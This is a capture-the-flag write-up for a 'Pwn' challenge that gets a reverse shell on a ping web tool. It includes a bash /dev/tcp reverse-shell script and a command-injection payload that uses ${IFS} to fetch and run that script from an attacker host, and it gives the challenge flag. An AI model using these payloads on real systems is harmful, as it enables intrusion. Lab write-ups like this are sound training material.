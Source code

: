 ```yaml
---
layout: writeup

title: Big Machine
level:
difficulty: Hard
points: 500
categories: [Pwn]
tags: []

flag: CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
---
```


### Big Machine
* Author: Aakansh Gupta (Unknown)

Check the website on the given url

<img src="./images/big.png" />

It shows the pin result for given IPs.
Try and get a reverse shell on it.
Since most common commands are blocked, we try and send a script from attacked to the machine like: 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.130/4444 0>&1

```
We craft a special request to send this: ` 8.8.8.8;curl${IFS}-o${IFS}/tmp/x${IFS}YOUR_ATTACKER_IP:8000/s;chmod${IFS}+x${IFS}/tmp/x;/tmp/x `
We can use python http.server to send the file. At the same time keep the netcat listener open to accept the reverse shell.

After getting a reverse shell, try snoop around to find the flag. If you check the enviornment variables using `env` , you get the flag

<img src="./images/bigflag.png" />


### The flag found is:
## CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
